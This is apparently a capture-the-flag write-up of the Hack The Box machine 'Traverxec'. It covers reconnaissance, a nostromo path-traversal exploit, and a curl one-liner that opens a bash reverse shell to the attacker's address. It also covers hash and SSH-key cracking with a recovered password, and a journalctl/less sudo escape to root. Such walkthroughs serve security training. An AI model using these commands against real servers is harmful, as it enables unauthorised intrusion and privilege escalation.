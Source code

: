 ```yaml
---
title: "[HTB] Machine: Traverxec"
description: "[HTB] Machine: Traverxec"
date: 2023-06-26
menu:
  sidebar:
    name: "[HTB] Machine: Traverxec"
    identifier: htb-machine-traverxec
    parent: htb-machines-linux
    weight: 10
hero: images/traverxec.png
tags: ["HTB", "nostromo", "searchsploit", "htpasswd", "hashcat", "ssh", "john", "gtfobins", "journalctrl"]
---
```


# Traverxec
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 19:35 BST
Nmap scan report for 10.10.10.165 (10.10.10.165)
Host is up (0.096s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.10 seconds
```
- Web server

![](./images/1.png)

- `gobuster`

```
└─$ gobuster dir -u http://10.10.10.165 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.165
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/27 19:39:09 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://10.10.10.165/img/]
/icons                (Status: 301) [Size: 314] [--> http://10.10.10.165/icons/]
/css                  (Status: 301) [Size: 314] [--> http://10.10.10.165/css/]
/lib                  (Status: 301) [Size: 314] [--> http://10.10.10.165/lib/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.10.165/js/]
```

## Foothold
- From `nmap` results we see `nostromo 1.9.6`
  - Check `searchsploit`

![](./images/2.png)

![](./images/3.png)

- We can test `poc`

![](./images/4.png)

![](./images/5.png)

- It works
  - Let's get a reverse shell
  - `curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/6666 0>&1"'`

![](./images/6.png)

![](./images/7.png)

## User
- Let's enumerate with `linpeas`
  - Found `.htpasswd` and `nhttpd.conf`
  - Starts hashcat, since it will take a while to crack
    - `echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > david.hash`
    - `hashcat -m 500 david.hash /usr/share/wordlists/rockyou.txt --username`
    - Resulted in `david:Nowonly4me`
    - `su` doesn't work

![](./images/8.png)

![](./images/9.png)

- In `nhttpd.conf` we can see `homedirs` parameter set to `/home`
  - According to [docs](http://www.nazgul.ch/dev/nostromo_man.html), it means that 

![](./images/10.png)

- So we can visit `http://10.10.10.165/~david/`


![](./images/11.png)

- From the config file we also saw that `homedirs_public` is set to`public_www`
  - Which means that there is `public_www` folder inside `/home/david` which probably can be accessed as `www-data` user

![](./images/12.png)

- I tried sending file via `nc` but it didn't work
  - Then I tried downloading it using `wget` since we have creds for `david` and config states that it uses `.htpasswd` for authentification

![](./images/13.png)

- After downloading `tar` file, we see that it contains david's key
  - Which is protected, so let's crack it with `john`

![](./images/14.png)

- Let's connect using the key

![](./images/15.png)

## Root
- Let's enumerate for privesc again
  - We see `bin` folder with script inside

![](./images/16.png)

![](./images/17.png)

- We see that `journalctl` is executed as `sudo`
  - Thus `david` is a `sudoer`
  - Let's check `GTFOBins`
  
![](./images/18.png)

- So the trick here was that we need to shrink the terminal, so that `journalctl` will pipe stdout to `less`
  - Based on script we have 5 lines
  - We shrink terminal to less than 5
  - Output from the `journalctl` will be sent to `less` as root
  - And we can type `!/bin/bash` to get us a root shell

![](./images/19.png)

![](./images/20.png)
